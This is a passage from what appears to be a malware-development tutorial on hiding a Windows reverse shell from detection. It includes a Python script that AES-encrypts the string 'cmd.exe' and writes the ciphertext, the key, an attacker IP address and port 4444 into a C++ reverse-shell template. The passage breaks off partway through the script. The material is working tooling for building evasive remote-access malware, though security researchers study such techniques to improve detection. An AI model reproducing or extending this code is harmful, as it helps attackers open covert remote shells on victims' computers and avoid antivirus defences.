 and we add decryption line in our `main` function:
![AES decryption](/assets/images/5/2021-09-15_13-20.png){:class="img-responsive"}

AES encrption is actually simple function, it’s a symmetric encryption, we can use it for encryption and decryption with the same key.

In our shell, `myCmd` should be encrypted with AES.

For that we create simple python script which encrypt `cmd.exe` and replace it in our C++ template (and replace attacker's host address, port):
```python
# shell-aes.py
# author: @cocomelonc
# windows reverse shell AES encryptor (only cmd.exe now)
import sys
import os
from Crypto.Cipher import AES
from os import urandom
import hashlib

def pad(s):
    return s + (AES.block_size - len(s) % AES.block_size) * chr(AES.block_size - len(s) % AES.block_size)

def convert(data):
    output_str = ""
    for i in range(len(data)):
        current = data[i]
        ordd = lambda x: x if isinstance(x, int) else ord(x)
        output_str += hex(ordd(current))
    return output_str.split("0x")

def AESencrypt(plaintext, key):
    k = hashlib.sha256(key).digest()
    iv = 16 * '\x00'
    plaintext = pad(plaintext)
    cipher = AES.new(k, AES.MODE_CBC, iv.encode("UTF-8"))
    ciphertext = cipher.encrypt(plaintext.encode("UTF-8"))
    ciphertext, key = convert(ciphertext), convert(key)
    ciphertext = '{' + (' 0x'.join(x + "," for x in ciphertext)).strip(",") + ' };'
    key = '{' + (' 0x'.join(x + "," for x in key)).strip(",") + ' };'
    return ciphertext, key

my_secret_key = urandom(16)
ip, port = "10.9.1.6", "4444"

## process cmd.exe
plaintext = "cmd.exe"
ciphertext, key = AESencrypt(plaintext, my_secret_key)

## open and replace our payload in C++ code
tmp = open("shell-aes.cpp", "rt")
data = tmp.read()
data = data.replace('unsigned char myCmd[] = { };', 'unsigned char myCmd[] = ' + ciphertext)
data = data.replace('unsigned char mySecretKey[] = { };', 'unsigned char mySecretKey[] = ' + key)
data = data.replace('char *ip = "127.0.0.1";', 'char *ip = "' + ip + '";')
data = data.replace('short port = 4444;', 'short port = ' + port + ';')
tmp.close()
tmp = open("shell3.cpp", "w+")
```